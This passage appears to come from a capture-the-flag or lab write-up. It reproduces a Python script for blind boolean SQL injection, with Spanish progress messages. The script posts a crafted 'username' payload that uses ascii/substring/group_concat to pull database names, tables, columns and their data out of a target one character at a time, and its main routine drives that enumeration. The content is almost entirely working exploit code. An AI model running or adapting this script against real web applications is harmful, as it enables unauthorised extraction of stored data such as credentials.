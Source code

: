```python
    p1 = log.progress(f"Iniciando fuerza bruta para extraer las columnas {columns}")
    p1.status("")
    p2 = log.progress("Probando carácteres")
    info = ""
    count = 1
    col = str(re.sub(",", ",0x3a,", columns))
    p3 = log.progress(str(count) + ": ")

    for pos in range(1, 500):
        found = False
        for char in characters:
            p2.status(char)
            data = {"username" : f"test' or (select ascii(substring(group_concat({col}),{pos},1)) from {database}.{table}) = '{ord(char)}"}
            r = requests.post(URL, data=data)
            
            if FILTER in r.content.decode():
                
                if char == ',':
                    count += 1
                    p3 = log.progress(str(count) + ": ")
                    info = ""
                    break
                elif char == ':':
                    info += ' '
                    break

                info += char
                p3.status(info)
                break


def main():
    database, table, columns = get_arguments()
    
    if database == None:
        get_databases()

    elif database != None and table == None:
        get_tables(str(database))
    
    elif database != None and table != None and columns == None:
        get_columns(str(database), str(table))
    else:
        get_data(str(database), str(table), str(columns))

if __name__ == '__main__':
    main()
```

___
#sqli #abusing-internal-services #hash-cracking #web-enumeration 
___
